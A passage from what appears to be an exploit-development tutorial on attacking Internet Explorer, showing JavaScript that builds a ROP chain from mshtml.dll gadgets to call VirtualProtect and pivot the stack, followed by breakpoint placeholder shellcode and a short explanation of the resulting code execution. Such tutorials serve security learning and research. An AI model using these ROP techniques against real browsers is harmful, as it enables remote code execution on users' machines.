 ```js
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\u9449\u750c";                     // mov eax, ecx ; ret (750c9449) (mshtml.dll) Get the stack address of VirtualProtect into EAX
rop += "\ua1ea\u74c7";                     // xchg esp, eax ; ret (74c7a1ea) (mshtml.dll) Kick off the function call
````
We can also replace our shellcode with some software breakpoints to confirm our ROP chain worked.

```js
// Create a placeholder for our shellcode, 0x400 in size
shellcode = "\uCCCC\uCCCC";

for (i=0; i < 0x396/4-1; i++)
{
shellcode += "\uCCCC\uCCCC";
}
````

After ECX is incremented, we can see that it now contains the `VirtualProtect` stack address. This is then passed to EAX, which then is exchanged with ESP to load the function call into ESP! The, the `ret` part of the gadget takes the value at ESP, which is `VirtualProtect`, and loads it into EIP and we get successful code execution!

<img src="{{ site.url }}{{ site.baseurl }}/images/browser60.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/browser61.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/browser62.png" alt="">

